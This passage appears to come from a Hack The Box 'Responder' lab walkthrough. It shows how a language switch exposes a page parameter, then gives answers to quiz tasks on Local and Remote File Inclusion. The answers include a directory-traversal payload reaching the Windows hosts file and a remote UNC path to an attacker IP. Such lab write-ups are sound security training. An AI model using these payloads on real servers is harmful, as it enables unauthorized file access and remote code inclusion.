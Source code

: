 Click <code>EN</code> in the upper right corner of the screen to switch languages.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Responder/Responder/language.png" alt="language" width="60%">

After switching to <code>FR</code> (French), you can find that there is an additional parameter <code>page=french.html</code> in the URL.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Responder/Responder/language2.png" alt="language2" width="60%">

<h3>TASK 4</h3>
Q：Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability:<br>
"french.html",<br>
"//10.10.14.6/somefile",<br>
"../../../../../../../../windows/system32/drivers/etc/hosts",<br>
"minikatz.exe"<br>
A：<code>../../../../../../../../windows/system32/drivers/etc/hosts</code><br><br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%201/Responder/Responder/LFI.png" alt="LFI" width="60%">

<h3>TASK 5</h3>
Q：Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability:<br>
"french.html",<br> 
"//10.10.14.6/somefile",<br>
"../../../../../../../../windows/system32/drivers/etc/hosts",<br>
"minikatz.exe"<br>
A：<code>//10.10.14.6/somefile</code>
